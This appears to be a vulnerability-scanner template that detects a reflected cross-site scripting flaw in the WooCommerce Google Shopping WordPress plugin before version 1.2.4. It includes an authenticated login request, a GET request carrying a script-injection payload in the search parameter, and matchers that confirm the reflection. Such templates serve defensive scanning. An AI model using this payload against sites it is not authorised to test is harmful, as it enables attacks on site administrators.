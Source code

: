 
# WordPress WooCommerce Google Shopping \< 1.2.4 - Cross-Site Scripting

## Description

- WordPress WooCommerce Google Shopping \< 1.2.4 is susceptible to cross-site scripting because the plugin does not sanitize or escape the search GET parameter before outputting it back in the page and executing it in a logged in admin context.
- severity - high
- tags - wp-plugin,xss,authenticated,woocommerce,wpscan,wordpress

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=elex-product-feed-manage&search=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---